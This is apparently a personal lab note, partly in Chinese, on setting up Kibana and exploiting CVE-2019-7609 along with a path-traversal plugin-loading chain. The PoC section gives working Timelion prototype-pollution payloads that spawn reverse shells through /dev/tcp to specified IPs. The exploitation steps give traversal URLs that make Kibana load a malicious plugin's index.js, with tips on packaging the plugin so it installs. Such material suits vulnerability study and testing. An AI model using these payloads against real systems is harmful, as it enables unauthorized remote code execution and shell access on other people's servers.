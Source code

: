 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


但是漏洞触发，还需要点击"Canvas"。但是某些版本，比如6.2.4并没有"Canvas"功能。


### Rescue
![image](https://user-images.githubusercontent.com/30398606/160997528-7ae1dc1d-8df6-4a32-a6e8-8e47d0e0d1a9.png)

![image](https://user-images.githubusercontent.com/30398606/160998219-fb2d6312-ced4-4912-b3df-2ead6af97ccb.png)

确实下载了test.zip，但是安装出错，导致kibana退出了。如果是实战中，就悲剧了，把有漏洞的kibana给关了，真的无法利用了。
![image](https://user-images.githubusercontent.com/30398606/160999181-696f238a-adca-44bb-a813-2aca8dcb574b.png)

原来是没有把index.js打包进去。

安装失败参考这个构造zip包：
https://github.com/outbrain/ob-kb-percent/issues/7

![image](https://user-images.githubusercontent.com/30398606/161001182-62faa5e8-6d69-4464-8367-c27aecbdbe9d.png)

确保把package.json和index.js都打包进去。
![image](https://user-images.githubusercontent.com/30398606/161003176-a8df6af8-4d10-4553-ad4e-a2f32325b9e0.png)

虽然报这个错，但是插件已经安装成功了。
![image](https://user-images.githubusercontent.com/30398606/161003301-b4029b69-54d8-45cf-8918-2ea3f0ad511d.png)


### 利用过程
0、准备恶意插件：







1、设置payload：


2、触发下载插件：
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../cli_plugin/cli.js




3、触发Kibana加载插件，执行恶意的index.js
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../plugins/synacktiv/index.js
![image](https://user-images.githubusercontent.com/30398606/161235363-3c99ed01-1a6a-4311-99bc-32ea44bbe370.png)


![image](https://user-images.githubusercontent.com/30398606/161235216-0dc772bb-6de5-4f4a-addf-8025a32e36cf.png)

利用有风险，很多地方都能把kibana给弄挂。这里反弹shell结束之后，kibana就挂了。

## Ref
- https://github.com/mpgn/CVE-2019-7609
- https://github.com/mpgn/CVE-2018-17246
- https://www.synacktiv.com/en/publications/pwning-an-outdated-kibana-with-not-so-sad-vulnerabilities.html
- https://twitter.com/chybeta/status/1185860595620311042
- https://github.com/harsh-bothra/learn365/blob/main/days/day32.md
- https://github.com/kh4sh3i/ElasticSearch-Pentesting
